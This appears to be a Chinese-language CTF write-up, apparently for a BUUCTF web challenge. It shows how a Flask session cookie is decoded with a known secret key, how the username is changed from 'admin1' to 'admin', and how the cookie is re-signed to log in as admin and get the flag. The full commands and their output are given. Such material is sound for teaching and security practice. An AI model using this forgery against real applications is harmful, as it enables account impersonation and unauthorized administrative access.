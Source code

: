 用脚本: 首先使用`key`对`admin1`登录时的`session`值进行解密

```
E:\CTF工具合集\flask-session-cookie-manager-master\flask-session-cookie-manager-master>py flask_session_cookie_manager3.py decode -c ".eJw9kMFuwjAMhl9lypkD3egFiQNTCmqlJAKljZwLKrSQuDGT6CZoEe--DE2cP_vz__vOdsdL2zs2P9ahbyds5xs2v7O3PZszqT9RGRkAs1RpuFp03mLhAMWH4hVKUyGM5UzybrBYJmpdodAOLeUpkEiFFokYpZe6cNasgjUwSF6QNCuneJwz4ibHTdzNZ5YvZ2CqACZPJR5uYLZB6dMo3qtO0F-GolM8S8W4JdDOS2wQ9HKUVF6B8gV7TNihvxx3319de35VACqC5TZYnaWSCg8EU9Bl1G4GqbNBrGPEdaxGkeMmnq2cWi6eOk_1qX2ZmmlS2n9yrikCVjfkzwmbsJ--vTwfx5Ipe_wCfPRvAQ.Y0wFxw.Mk0P7kqa9AF6MQm6hSJpO1WQFhQ" -s "ckj123"
```

解密出来的值是一个字典: 可以看到里面有`admin1`

```
{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin1', 'user_id': '10'}
```

那么为了伪造`admin`登录,将`admin1`改为`admin`

```
{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin', 'user_id': '10'}
```

然后使用脚本对修改完的内容进行加密,同样需要用到`key`,加密之后得到一个新的`session`值

```
E:\CTF工具合集\flask-session-cookie-manager-master\flask-session-cookie-manager-master>py flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': False, '_id': b'50c9ceb19960f8bf2ab3785c5ecc58492f558ec18cfb9bc913533b52aeaeef242f5aa88cec1742f28d08aeeab9671ade9833ed2ceb2d81934fa8b67ca036e0bb', 'csrf_token': b'bbed6ee196bbbf4a533d25120c50f0fa9641aea8', 'image': b'wMTd', 'name': 'admin', 'user_id': '10'}"
.eJw9kMFuwjAMhl9l8pkD3egFiQNTCmqlOAKljZwLKrSQpAmT6CZoEe--DE2cP_vz__sOu-Ol7Q3Mj7Xv2wnsbAPzO7ztYQ4oP51Q6MllqZB01c5Y7QpDjn8IVjlUlaOxnCHrBu3KRKwrx6VxOuQpBZ5yyRM-okVZGK1WXisakBUB1coIFucUv-G4ibv5TLPljFTlSeUpusON1NYLeRr5e9Xx8Jeh6ATLUj5uA0lj0TWO5HLEUF4p5At4TODQX46776-uPb8qUCi8ZtprmaUYCkuBpiTLqN0MKLOBr2PEdawWInebeLYyYrl46myoT-3L1EyTUv-Tcx0igLoJ9gwT-Onby_NvkEzh8QsPi27Q.Y0wG7Q.BnqQ4DVzGAf6kiiYR_i5k9_YwLQ
```

将这个新的值替换到`cookie`中,就完成了`session`伪造,成功伪装成了`admin`登录,拿到flag

<img src="/images/buuctf-web/image-20221016213048788-166704781973465.png" alt="image-20221016213048788" style="zoom:67%;" />
